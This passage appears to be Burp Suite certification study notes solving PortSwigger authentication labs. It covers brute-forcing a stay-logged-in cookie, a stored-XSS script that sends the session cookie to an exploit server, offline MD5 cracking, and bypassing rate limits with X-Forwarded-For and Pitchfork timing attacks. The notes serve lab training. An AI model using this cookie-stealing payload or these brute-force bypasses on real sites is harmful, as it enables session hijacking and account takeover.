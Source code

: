 > The exploit steps below plus the Intruder Payload processing rules in order and including the GREP option in sequence before starting the attack.

1. Logout as current user.
2. Send the most recent GET /my-account request to Burp Intruder.
3. Select the cookie: `stay-logged-in` as injection position.
4. Hash: `MD5`
5. Add prefix: `carlos:`
6. Encode: `Base64-encode`
7. Add **GREP** under settings tab, to check for the string in the response `Update email` indicating successfully logged in attack.

[PortSwigger Lab: Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)

#### Stay-logged-in Offline Crack

> The blog application comment function is vulnerable to [stored XSS](broken-reference), use the below payload in blog comment to send the session cookie of Carlos to the exploit server.

```
<script>
document.location='https://EXPLOIT.net/StealCookie='+document.cookie
</script>
```

> Base64 decode the `stay-logged-in` cookie value and use an online **MD5** hash crack station database.

[PortSwigger Lab: Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

#### Brute Force Protected Login

> _**Identified**_ brute force protection on login when back-end enforce 30 minute ban, resulting in **IP blocked** after too many invalid login attempts. Testing `X-Forwarded-For:` header result in bypass of brute force protection. Observing the response time with long invalid password, mean we can use **Pitchfork** technique to _**identify**_ first valid usernames with random long password and then rerun intruder with **Pitchfork**, set each payload position attack iterates through all sets simultaneously.

[Burp Lab Username, Password and directory fuzzing Word lists](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/wordlists)

> Payload position 1 on IP address for `X-Forwarded-For:` and position 2 on username with a long password to see the **response time delay** in attack columns window.

```
X-Forwarded-For: 12.13.14.15
```

> Repeat above **Pitchfork** intruder attack on the password field and then _**identify**_ valid password from the status column with 302 result.

[PortSwigger Lab: Username enumeration via response timing](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing)

#### Subtly Invalid Login
